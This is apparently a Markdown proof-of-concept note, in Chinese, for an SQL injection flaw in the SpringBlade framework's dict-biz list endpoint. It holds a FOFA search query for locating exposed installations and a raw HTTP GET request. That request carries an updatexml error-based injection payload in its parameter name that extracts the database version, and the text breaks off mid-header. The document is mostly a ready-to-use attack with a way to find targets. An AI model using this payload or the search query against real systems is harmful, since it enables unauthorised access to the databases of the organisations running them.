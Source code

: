 ## SpringBlade框架dict-biz接口存在sql注入漏洞


## fofa
```
body="Saber 将不能正常工作"
```

## poc
```
GET /api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win
```
